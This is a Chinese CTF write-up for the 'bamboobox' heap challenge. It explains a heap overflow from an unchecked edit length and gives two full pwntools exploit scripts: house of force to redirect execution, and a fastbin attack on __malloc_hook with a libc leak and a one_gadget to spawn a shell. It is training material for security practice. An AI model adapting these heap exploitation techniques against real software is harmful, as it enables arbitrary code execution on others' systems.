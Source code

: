 ```yaml
---
abbrlink: '0'
---
```

## hitcontraining_bamboobox

> 题目解法比较多，可以 fastbin 改 malloc_hook 搭配 realloc 运行 onegadget ；house of force 向上抬 topchunk 改 goodbye 函数地址；house of force 向下压 topchunk 改 malloc_hook 。

### 基本情况

用 chunk_ptr 和 chunk_size  两个列表维护，基于下标操作堆块。增删查改功能都有。

### 漏洞

修改函数要求输入修改长度，对该长度没有限制，造成堆溢出：

```c
printf("Please enter the length of item name:", &buf);
read(0, &v4, 8uLL);
length = atoi(&v4);
printf("Please enter the new name of the item:", &v4);
//直接写入，没有对size进行检查
*(_BYTE *)(chunk_ptr_list[2 * v2] + (signed int)read(0, (void *)chunk_ptr_list[2 * v2], length)) = 0;
```

### 思路

> fastbin 攻击 malloc_hook 方法和正常套路流程差不多，最后贴 exp 。

house of force 使用条件都满足，先明确将 topchunk 向上调多少。申请好等等用来溢出修改 topchunk size 的 chunk 之后，gdb 调试。

![image-20201103111102583](https://gitee.com/mrskye/Picbed/raw/master/img/20201103111102.png)

这里就直接将堆申请覆盖整个第一个堆块，距离计算：

```python
#(0x603000-0x603090)-0x10=-0xa0
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))
```

![image-20201103112332803](https://gitee.com/mrskye/Picbed/raw/master/img/20201103112332.png)

后面就申请一个堆，写入内容，也就是任意地址写。

### EXP

house of force

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

p = process("./bamboobox")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
# p = remote("node3.buuoj.cn",29945)
# libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x68,'a')
payload = 'a'*0x68+p64(0xffffffffffffffff)
edit(0,len(payload),payload)
add(-0xa0,'b')
add(0x10,'skye'*2+p64(elf.sym['magic']))


p.recvuntil(':')
p.sendline('5')

# gdb.attach(p)
p.interactive()
```

fastbin attack

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')

# p = process("./bamboobox")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF("./bamboobox")
p = remote("node3.buuoj.cn",29945)
libc = ELF("./libc-2.23.so")

def add(size,content):
	p.recvuntil(':')
	p.sendline('2')
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def show():
	p.recvuntil(':')
	p.sendline('1')

def edit(id,size,content):
	p.recvuntil(':')
	p.sendline('3')
	p.recvuntil(':')
	p.sendline(str(id))
	p.recvuntil(':')
	p.sendline(str(size))
	p.recvuntil(':')
	p.send(content)

def remove(id):
	p.recvuntil(':')
	p.sendline('4')
	p.recvuntil(':')
	p.sendline(str(id))

add(0x100,'top')
add(0x68,'overloping')#1
add(0x400-0x10,'end')
add(0x68,'/bin/sh\x00protect')#3

remove(0)

payload = 'a'*0x60+p64(0X180)#+'\x00'
edit(1,len(payload),payload)

remove(2)

add(0x100,'top')

show()
p.recvuntil("1 : ")
leak_addr = u64(p.recv(6).ljust(8,'\x00'))
libc_base = leak_addr-0x3c4b78
log.info("libc_base:"+hex(libc_base))
malloc_hook = libc_base+libc.sym['__malloc_hook']
log.info("malloc_hook:"+hex(malloc_hook))
realloc = libc_base+libc.sym['realloc']


add(0x68,'skye')#2
remove(2)
edit(1,len(p64(malloc_hook-27-8)),p64(malloc_hook-27-8))
add(0x68,'skye')

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
onegadget = libc_base + 0x4526a#0x4527a
add(0x68,'a'*11+p64(onegadget)+p64(realloc))
# gdb.attach(p)
p.recvuntil(':')
p.sendline('2')
p.recvuntil('name:')
p.sendline(str(0x68))


p.interactive()
```

